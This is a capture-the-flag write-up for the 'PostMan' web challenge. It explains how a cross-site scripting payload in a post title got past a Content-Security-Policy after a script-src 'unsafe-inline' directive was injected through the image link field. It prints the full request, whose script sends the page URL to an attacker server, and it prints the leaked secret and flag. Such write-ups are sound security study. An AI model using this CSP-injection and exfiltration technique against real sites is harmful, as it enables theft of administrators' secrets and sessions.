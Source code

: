 PostMan 
===
#### [web, 70p, 12 solves]
**TLDR**; simple XSS which was blocked by CSP. You needed to inject into CSP header to get XSS working.

The application let user to create posts with a title and an image. Image had to be passed in form of a link. You could report post to the admin who will inspect it (typical XSS challange).    
Right of a bat I found simple XSS in title field `<script>alert(1)</script>`, but it was blocked due to CSP header that server set in the response:
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 518
Content-Security-Policy: default-src 'self'; img-src https://i.imgur.com/SW3HsEm.png; connect-src *;
Set-Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df; Expires=Sat, 25-Jan-2020 20:42:04 GMT; HttpOnly; Path=/
Server: Werkzeug/0.14.1 Python/3.8.0
Date: Wed, 25 Dec 2019 20:42:04 GMT
```
At that moment I realised that the link to the image is inserted into CSP header. My first thought was the header injection, but that lead me nowhere. Flask is smart enought to detect new lines in response headers.
After a while I thought about CSP injection. From the CSP header I knew that there were 3 policies defined, `default-src` , `img-src` for our image in the post and `connect-src` (not sure why that one is defined). The default policy allows for the content only from the challenge site origin. When `script-src` policy isn't defined, it inherits from default one, so that why XSS from earlier was blocked. To make it work, I needed to somehow define `script-src` policy with `unsafe-inline` value, which allows for html script tag usage (`<script></script>`).
And that's exactly what I did. I injected `script-src` policy into the link field. The final request looked like that (post data url decoded for better readability):
```
POST / HTTP/1.1
Host: ctf.kaf.sh:3030
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.kaf.sh:3030/
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Connection: close
Cookie: session=91ddc442-ea0c-47ef-bc81-9cbe057f01df
Upgrade-Insecure-Requests: 1

title=<script>document.location = 'http://myserver.local/?' + document.URL;</script>&pictureSrc=https://i.imgur.com/SW3HsEm.png; script-src 'unsafe-inline'
```
XSS was finally triggered. I reported that post to the admin and after few seconds I've got that request
```
GET /?http://ctf.kaf.sh:3030/post/5?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6 HTTP/1.1
Host: myserver.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
When I visited `http://ctf.kaf.sh:3030/?secret=7NKuGbDnFEWijCXtmPpTQVegzk95yRS6`, I've got the flag
`KAF{c5P_1nJ3c710ns_4r3_FUn}`
